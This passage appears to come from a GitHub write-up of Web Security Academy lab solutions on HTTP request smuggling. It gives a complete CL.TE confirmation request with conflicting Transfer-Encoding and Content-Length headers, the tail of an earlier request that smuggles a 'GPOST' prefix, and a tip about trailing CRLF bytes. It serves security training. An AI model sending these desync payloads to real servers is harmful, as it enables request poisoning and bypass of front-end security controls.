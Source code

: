 ```
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8f003f0461e769c1135c5a0032004a.web-security-academy.net/post?postId=7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

1E
GPOST /post/comment HTTP/1.1

0


```

- You need to include the trailing sequence \r\n\r\n following the final 0.

### HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

<img width="638" alt="image" src="https://user-images.githubusercontent.com/56427824/195546066-43233caa-61d9-4c76-a8c2-323a69d7a294.png">

<img width="634" alt="image" src="https://user-images.githubusercontent.com/56427824/195546165-d99c1a2f-2ff3-45bd-8788-5df8a5537f32.png">

Confirm CL:TE Vulnerability

```
POST /post/comment HTTP/1.1
Host: 0a6700fe03cbc79ec068303c00bf0039.web-security-academy.net
Cookie: session=xVphi9K1cd1EaPsHzoH9zfFbmztwWa8u
Transfer-Encoding: chunked
Content-Length: 4
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a6700fe03cbc79ec068303c00bf0039.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6700fe03cbc79ec068303c00bf0039.web-security-academy.net/post?postId=9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

1
A
X
```

